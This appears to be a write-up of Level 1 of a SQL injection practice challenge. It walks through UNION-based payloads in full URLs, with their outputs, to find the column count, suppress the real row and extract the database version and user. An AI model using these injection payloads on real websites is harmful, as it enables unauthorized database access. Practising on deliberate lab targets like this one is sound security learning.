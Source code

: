 # Rules!
- Use only **UNION** BASED!
- Your mission is to select only the **version()** & **user()**.
- **Have Fun** (:

## [Level 1](https://zixem.altervista.org/SQLi/level1.php?id=1)
Start: `https://zixem.altervista.org/SQLi/level1.php?id=1`
~~~
- **Item ID:** 1
- **Price:** 20$
~~~
=> I guess the Query can be:
`SELECT * FROM <db> WHERE id=1`
=> We should add `UNION SELECT 1,2;--`
Result:
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2;--`
~~~
The used SELECT statements have a different number of columns**Item ID:**
**Price:** $
~~~
=> So it doesn't have 2 columns, let's try again with more to see if the error still exist
Result:
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2,3;--`
~~~
- **Item ID:** 1
- **Price:** 20$
~~~
=> But the Data is not shown in the result. It is caused of the "id=1" data came before our data, let's **invalidate** it first.
Result:
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3;--`
~~~
- **Item ID:** 2
- **Price:** 1$
~~~
Ok let's extract *version()* and *user()*:
Result:
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%20version(),user(),3;--`
~~~
- **Item ID:** zixem@localhost
- **Price:** 5.6.33-log$
~~~
=> Bazinga!
